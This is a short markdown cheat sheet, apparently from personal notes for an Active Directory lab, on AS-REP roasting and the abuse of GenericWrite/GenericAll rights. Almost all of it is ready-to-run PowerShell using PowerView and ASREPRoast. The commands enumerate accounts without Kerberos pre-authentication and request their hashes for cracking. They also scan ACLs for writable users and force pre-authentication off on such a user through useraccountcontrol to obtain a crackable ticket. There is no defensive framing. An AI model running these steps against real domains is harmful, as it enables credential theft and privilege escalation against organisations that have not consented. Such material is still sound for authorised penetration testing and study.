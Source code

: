 ```yaml
---
layout: page
title: "# AD Pre Auth, AS-REP, GennericWrite/All"
permalink: /ad_cheatsheets/ad_preauth_asrep_genericwriteall
---
```


# AD Pre Auth, AS-REP, GennericWrite/All

## Enum Users With Kerberos Pre Auth Disabled

```powershell
. .\PowerView_dev.ps1

Get-DomainUser -PreauthNotRequired
```

## Request Hash

```powershell
. C:\AD\Tools\ASREPRoast-master\ASREPRoast-master\ASREPRoast.ps1

Get-ASREPHash -UserName VPN648user 
```

---

## Enum Users Who Has GenericWrite/All Right

```powershell
. .\PowerView_dev.ps1

Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

## Force Set Preauth Not Required

```powershell
Set-DomainObject -Identity Control648User -XOR @{useraccountcontrol=4194304} -Verbose

Get-DomainUser -PreauthNotRequired -Identity Control648User
```

## Request Ticket

```powershell
Get-ASREPHash -UserName Control648User -Verbose
```

We can crack this ticket too.

[Abusing Active Directory ACLs/ACEs](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)

[AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse)
